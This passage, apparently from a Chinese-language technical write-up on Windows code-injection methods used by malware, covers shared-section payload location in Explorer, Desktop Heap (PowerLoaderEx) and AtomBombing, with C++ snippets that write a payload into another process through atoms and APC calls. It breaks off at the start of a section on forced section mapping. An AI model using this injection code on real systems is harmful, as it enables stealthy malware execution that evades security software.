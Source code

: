 ```cpp  
ReadProcessMemory(h, (LPCVOID)(address+section_size-sizeof(payload)), read_buf, sizeof(payload), NULL);
if (memcmp(read_buf, payload, sizeof(payload)) == 0)
{
// the payload is at address + section_size - sizeof(payload);
…
break;
}
}
region_size = mem.RegionSize;
}
```  
得到里目标进程当中payload的地址,就可以使用任意一种执行方法去执行.同样,想要使用这种方法需要提前对目标进程有足够的了解.Explorer当中除了示例当中使用的以外还有  
"\BaseNamedObjects\ShimSharedMemory"  
"\BaseNamedObjects\windows_shell_global_counters"  
"\BaseNamedObjects\MSCTF.Shared.SFM.MIH"  
"\BaseNamedObjects\MSCTF.Shared.SFM.AMF"  
"\BaseNamedObjects\UrlZonesSM_Administrator"  
"\BaseNamedObjects\UrlZonesSM_SYSTEM"  
### Desktop Heap  
这种方法是发现于PowerLoaderEx,看名字就知道跟上面的PowerLoader是什么关系了吧.这种方法是基于 DesktopHeap被共享于所有带有窗口的进程当中.所以我们可以将数据写入DesktopHeap中.跟上面的方法大同小异只是利用的对象不一样,当然查询内存的部分也就有所不同.因为这种方法在Win10当中已经不能使用,所以学习的文章当中并没有给出一个简洁的示例代码,感兴趣可参考 https://github.com/BreakingMalware/PowerLoaderEx/blob/master/PowerLoaderEx.cpp  
### AtomBombing  
被Tal Liberman发明于2016年,当时号称能够绕过所有安全软件.这种方法利用GlobalAddAtom去实现进程间的数据传递.GlobalAddAtom向全局原子表中添加一个字符串,并返回一个唯一的值来标识字符串。这个表可以被系统上的所有进程访问.GlobalGetAtomName通过指定的标识来获取对应的字符串写入指定的位置.因为GlobalGetAtomName拥有三个参数,所以可以使用NtQueueApcThread来进行APC调用.但是要注意目标进程必须有警醒状态才行.  
> a. 将payload分割成以零结尾的字符串  
> b. 为每一个字符串创建Atom  
> c. 使用返回的标识,利用NtQueueApcThread来写入目标进程的指定位置  
```cpp  
HANDLE th = OpenThread(THREAD_SET_CONTEXT| THREAD_QUERY_INFORMATION, FALSE, thread_id);
ATOM aux = GlobalAddAtomA("b"); // arbitrary one char string
if (target_payload[0] == '\0')
{
printf("Invalid payload (starts with NUL)\n");
exit(0);
}
for (DWORD64 pos = sizeof(target_payload) - 1; pos > 0; pos--)
{
if ((payload[pos] == '\0') && (payload[pos - 1] == '\0'))
{
ntdll!NtQueueApcThread(th, GlobalGetAtomNameA, (PVOID)aux, (PVOID)(((DWORD64)target_payload) + pos-1), (PVOID)2);
}
}
for (char* pos = payload; pos < (payload + sizeof(payload)); pos += strlen(pos)+1)
{
if (*pos == '\0')
{
continue;
}
ATOM a = GlobalAddAtomA(pos);
DWORD64 offset = pos - payload;
ntdll!NtQueueApcThread(th, GlobalGetAtomNameA, (PVOID)a, (PVOID)(((DWORD64)target_payload) + offset), (PVOID)(strlen(pos)+1));
}
```  
### Forcibly map section  
这种方法发现于2017年的一款名为Zberp的恶意木马当中,它通过在自身的进程中创建一个filemaping然后映射到目标内存当中.  
> a. 创建一个filemapping  